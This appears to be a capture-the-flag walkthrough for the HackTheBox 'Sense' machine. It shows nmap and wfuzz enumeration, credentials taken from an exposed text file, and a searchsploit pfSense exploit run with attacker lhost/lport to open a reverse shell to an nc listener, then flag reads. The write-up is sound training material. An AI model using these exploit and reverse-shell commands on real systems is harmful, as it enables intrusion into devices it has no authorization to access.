








# **Sense**

# scanning
```bash
furious 10.10.10.60

nmap -Sc -sV -n -Pn -p443,80  10.10.10.60 -oN targeted
```


# web


cat extensions.txt

```txt

txt
php
xml
```

## wfuzz
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt -w extensions.txt https://10.10.10.60/FUZZFUZ2Z
```



wfuzz -c --hc 403,404 -t 300 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -w extensions.txt https://10.10.10.60/FUZZFUZ2Z


* https://10.10.10.60/changelog.txt



* https://10.10.10.60/system-users.txt


username: rohit
password: pfsense

# pfsense explotation



## searchsploit pfsense


```bash
searchsploit -m php/webapps/43560.py

python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 4444 --username rohit --password pfsense

nc -lvp 4444 # attacker machine
```


cat /home/rohit/user.txt
cat /root/root.txt
